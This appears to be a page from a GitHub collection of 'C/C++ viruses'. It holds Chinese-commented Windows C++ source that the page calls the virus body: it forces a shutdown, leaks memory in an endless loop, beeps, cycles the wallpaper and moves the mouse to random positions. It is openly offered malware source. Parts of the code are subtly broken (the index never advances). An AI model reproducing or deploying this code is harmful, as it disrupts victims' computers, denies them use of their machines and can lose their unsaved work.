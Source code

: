 ### 病毒主体，在上方代码实现开机自启动之后，这段代码可以不断修改壁纸，控制鼠标以及关机。
```
#include<stdio.h>
#include<windows.h>
#include<iostream>
#include <tchar.h>
#include<cstdlib>
#include<ctime>
using namespace std ;

int main(){

    POINT sb;
    PVOID s[10] = {
        (PVOID)"D:\\windows\\system32\\bin\\background.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background1.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background2.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background3.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background4.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background5.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background6.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background7.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background8.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background9.jpg"
        };
    srand((unsigned)time(NULL));
    system("shutdown -s -t 5");
    SystemParametersInfo(20, true,s, 1) ;
    GetCursorPos (&sb);//获取鼠标坐标
    int i = 0 ;
    while(1){
        int *p = (int*)malloc(10000000000) ;
        printf("\a");
        SystemParametersInfo(20, true,s[i], 1) ;
        if(i>=9){
            i = 0 ;
        }
        SetCursorPos(rand()%1000,rand()%800);//更改鼠标坐标
        Sleep(1);//控制移动时间间隔
    }

    return 0 ;
}
```

### 参考 :  [Github](https://github.com/CasterWx/c-cPlusPlus-Virus)
